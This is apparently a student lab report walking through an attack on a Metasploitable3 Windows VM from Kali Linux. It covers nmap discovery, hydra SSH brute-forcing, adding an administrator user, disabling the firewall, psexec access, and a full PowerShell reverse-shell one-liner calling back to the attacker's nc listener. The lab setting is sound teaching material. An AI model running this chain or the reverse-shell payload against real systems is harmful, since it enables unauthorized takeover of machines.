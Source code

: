 # Execution of simple demo of a remote and reverse shell 

##                          1. Introduction

In this report I will try to show how easy it is to obtain capabilities of controlling vulnerable windows systems through remote and  reverse shell technique.

## 2. Our Set-Up
In order to execute the demo we will need to have 2 VMs . One is  ```Kali Linux``` and another one is  ```metasploitable3``` (Windows version). I will use  ```Oracle VirtualBox``` to run both. We suppose that both systems stay in the same network. To make sure that both systems are on the same network, we must have equal network settings for both VMs.

That look like this:

![](Screenshot%201.png)

So our starting point gonna be:

![](Screenshot%202025-07-01%20000602.png)

NOTE:
In order to enter the  ```Kali Linux``` system we will need to enter  ```kali:kali``` credentials and for ```metasploitable3``` we will use  ```vagrant:vagrant``` credentials. After this we will have completly functional 2 operating systems

# 3. Discovery

To start, as an attacker (```Kali Linux User```), we first need to find or discover our victim (```Windows User```). By this I mean we need to find its IP address.

First of all we need to execute (on ```Kali Linux system```)  ```ifconfig ``` command to know own IP address 

output (only relevant part) is 
```
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
inet 10.0.2.15  netmask 255.255.255.0  broadcast 10.0.2.255
inet6 fe80::4bfb:2c17:c56e:39fc  prefixlen 64  scopeid 0x20<l
```
So now we know that our IP address is ```10.0.2.15``` and netmask is  ```255.255.255.0.```
After this we have to find other hosts on the same network, to do this we execute the  ```nmap 10.0.2.0/24```command. It will take a bit of time. Output (its relevant part ) of command will give us 

 ```Nmap scan report for 10.0.2.4
Host is up (0.0011s latency).
Not shown: 990 filtered tcp ports (no-response)
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
80/tcp    open  http
4848/tcp  open  appserv-http
5985/tcp  open  wsman
8080/tcp  open  http-proxy
8383/tcp  open  m2mservices
9200/tcp  open  wap-wsp
49153/tcp open  unknown
49154/tcp open  unknown
MAC Address: 08:00:27:D7:CC:D8 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
 ```
This is information about potential victim. To get more detailed information we can execute  ```nmap -sV 10.0.2.4``` and get 

 ```Nmap scan report for 10.0.2.4
Host is up (0.0011s latency).
Not shown: 990 filtered tcp ports (no-response)
PORT      STATE SERVICE  VERSION
21/tcp    open  ftp      Microsoft ftpd
22/tcp    open  ssh      OpenSSH 7.1 (protocol 2.0)
80/tcp    open  http     Microsoft IIS httpd 7.5
4848/tcp  open  ssl/http Oracle Glassfish Application Server
5985/tcp  open  http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8080/tcp  open  http     Sun GlassFish Open Source Edition  4.0
8383/tcp  open  http     Apache httpd
9200/tcp  open  http     Elasticsearch REST API 1.1.1 (name: Jane Foster; Lucene 4.7)
49153/tcp open  msrpc    Microsoft Windows RPC
49154/tcp open  msrpc    Microsoft Windows RPC
MAC Address: 08:00:27:D7:CC:D8 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
 ```
And now we have an IP address and a list of exposed services, ports and, more importantly, the versions of the software of a victim machine. So theoretically we can analyze the list of services, find exploits for any of them and use them for attacking, but we will take an easier path.

## 4. Password Cracking

In this part we will try to crack victims credentials through remote service  ```ssh```,  using  ```hydra```. 
To do so we will execute  ```hydra -L metasploitable3-short.txt -P metasploitable3-short.txt 10.0.2.4 ssh``` . Where ```hydra``` is the name of a program for brute forcing, ```metasploitable3-short.txt``` is a prepared list of probable logins and passwords of windows systems that are not configured properly. 
So, in short, we try to find valid combinations of username and password to access via ```ssh``` ```Metasploitable3``` machine at 10.0.2.4.

The Result of this command gonna be 

 ```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-06-30 18:55:20
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 900 login tries (l:30/p:30), ~57 tries per task
[DATA] attacking ssh://10.0.2.4:22/
[22][ssh] host: 10.0.2.4   login: vagrant   password: vagrant
[22][ssh] host: 10.0.2.4   login: Administrator   password: vagrant
1 of 1 target successfully completed, 2 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-06-30 18:55:49 
```

## 5. Controlling Victim’s PC via SSH

So now we know, we can access via ```ssh``` victim’s computer using one of 2 credentials that ```hydra``` has found . Let's do this with  ```ssh vagrant@10.0.2.4 ```. After entering the password we have access to the victim's pc via ```ssh```.

![](Screenshot%202025-07-01%20010144.png)

We can even add a new user and make it Administrator!!! 
With a command :
 ```
net user {nama new user} {password of new user}  /add
net localgroup administrators {name of  new user} /add 
  ```
![](Screenshot%202025-07-01%20011150.png)



## 6. Taking control of Victim’s PC via Reverse shell

In this chapter I will show how to gain more or less the same control of the victim's system but using the ```Reverse shell method``` , instead of using ```ssh``` connection. 
To execute this demo we will need to enter this command in our ```ssh``` shell  ```netsh advfirewall set allprofiles state off``` . This command temporarily turns off Windows Firewall, that otherwise would not let successful execution of this demo. After this, we will use the ideal tool for this goal, that is to say  ```psexec.py``` (part of the  ```Impacket suite```, already present in Kali). The beauty of  ```psexec``` is that, if the authentication is successful, it directly provides you with an interactive shell on the target system. But before we need to start our  ```netcat listener``` in a Kali terminal (preferably in another tab) with  ```nc -lnvp 4242```

![](Screenshot%202025-07-01%20013143.png)

After this we need to, in a second Kali terminal, run  ```psexec.py``` with the credentials we found. 
With a command :
 ```impacket-psexec vagrant:vagrant@10.0.2.4 ``` (in our case )
If  ```psexec.py``` is successful, it will directly give us a Windows command prompt  (e.g. ``` C:\Windows\system32>)```. 

![](Screenshot%202025-07-01%20013708.png)
Like this

We are now in control!

(To complete the ```Reverse Shell``` demo)  From the prompt we got with  ```psexec```, we can now launch the payload for the reverse shell that will connect to your netcat listener. A common payload for Windows uses PowerShell:

 ```powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.2.15',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()" ```

By copying and pasting this entire command into the ```psexec``` prompt. We will see our netcat listener start up, giving us an interactive PowerShell shell.

![](Screenshot%202025-07-01%20014844.png)


a little example of what we can do 

![](Screenshot%202025-07-01%20014909.png)

That's all 

## REFERENCES
In order to build this demo I used the teacher's website and slides. I also got help with commands from google’s gemini


